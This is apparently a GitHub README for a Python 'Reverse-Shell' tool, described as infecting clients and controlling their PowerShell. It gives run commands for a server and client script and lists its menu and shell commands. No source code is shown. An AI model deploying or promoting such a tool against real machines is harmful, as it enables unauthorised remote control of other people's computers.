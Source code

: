 # Reverse-Shell
Infects clients and controls their powershell with Python.
To de instalation you need has a server (any operative system) and 
execute the python script.
#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
pip3 install colorama
python3 client.py {ip}
```

#### Extra commands

#### [Menu]

- connect {number}

#### [Shell Commmands]

- alert {title} {message}
- exit
